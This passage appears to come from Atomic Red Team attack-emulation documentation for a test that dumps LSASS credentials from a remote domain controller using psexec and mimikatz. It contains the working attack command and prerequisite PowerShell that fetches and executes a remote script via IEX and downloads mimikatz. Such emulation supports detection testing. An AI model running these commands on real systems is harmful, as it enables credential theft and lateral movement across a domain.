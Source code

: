 ```powershell
```




<br/>
<br/>

## Atomic Test #2 - Remote Process Injection in LSASS via mimikatz
Use mimikatz to remotely (via psexec) dump LSASS process content for RID 500 via code injection (new thread).
Especially useful against domain controllers in Active Directory environments.
It must be executed in the context of a user who is privileged on remote `machine`.

The effect of `/inject` is explained in <https://blog.3or.de/mimikatz-deep-dive-on-lsadumplsa-patch-and-inject.html>

**Supported Platforms:** Windows


**auto_generated_guid:** 3203ad24-168e-4bec-be36-f79b13ef8a83





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| machine | machine to target (via psexec) | string | DC1|
| mimikatz_path | Mimikatz windows executable | path | %tmp%&#92;mimikatz&#92;x64&#92;mimikatz.exe|
| psexec_path | Path to PsExec | string | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;PsExec.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
"#{psexec_path}" /accepteula \\#{machine} -c #{mimikatz_path} "lsadump::lsa /inject /id:500" "exit"
```




#### Dependencies:  Run with `powershell`!
##### Description: Mimikatz executor must exist on disk and at specified location (#{mimikatz_path})
##### Check Prereq Commands:
```powershell
$mimikatz_path = cmd /c echo #{mimikatz_path}
if (Test-Path $mimikatz_path) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/Public/Invoke-FetchFromZip.ps1" -UseBasicParsing) 
$releases = "https://api.github.com/repos/gentilkiwi/mimikatz/releases"
$zipUrl = (Invoke-WebRequest $releases -UseBasicParsing | ConvertFrom-Json)[0].assets.browser_download_url | where-object { $_.endswith(".zip") }
$mimikatz_exe = cmd /c echo #{mimikatz_path}
$basePath = Split-Path $mimikatz_exe | Split-Path
Invoke-FetchFromZip $zipUrl "x64/mimikatz.exe" $basePath
```
##### Description: PsExec tool from Sysinternals must exist on disk at specified location (#{psexec_path})
##### Check Prereq Commands: